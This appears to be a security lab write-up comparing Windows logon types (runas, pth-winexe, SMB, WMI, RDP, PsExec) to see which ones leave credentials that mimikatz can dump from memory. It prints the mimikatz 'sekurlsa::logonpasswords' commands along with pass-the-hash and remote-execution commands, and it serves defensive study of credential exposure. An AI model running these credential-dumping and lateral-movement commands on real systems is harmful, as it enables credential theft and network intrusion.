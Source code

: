 ```yaml
---
description: >-
  This lab explores/compares when credentials are stored on a compromised
  system.
---
```


# Network vs Interactive Logons

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump \(using mimikatz\) on the victim system to see what we can get before we start logging on to the victim with other methods. To test this, the victim system was rebooted and no attempts to login to the system were made, except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test2.png)



## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-test3.png)

## Network Logon \(3\) with Local Account

Imagine and admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine a good admin or an Incident Responder is connecting to a victim system \(using that machine's local account\) remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Caches the credentials in memory:

![](../../.gitbook/assets/pwdump-test6.png)

![](../../.gitbook/assets/pwdump-logon10.png)

## Network + Interactive Logon via PsExec

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
PS C:\tools\PSTools> whoami.exe
offense\spot

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on.

## Network + Interactive Logon via PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed, which explains why credentials could be dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory excepts for `PsExec` when it is supplied alternate credentials through the use of `-u` switch. 

Interactive and remote interactive do get cached and can get easily dumped with Mimikatz.

Inspired by:

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts: Safeguarding Password Hashes \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts: Safeguarding Password Hashes\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

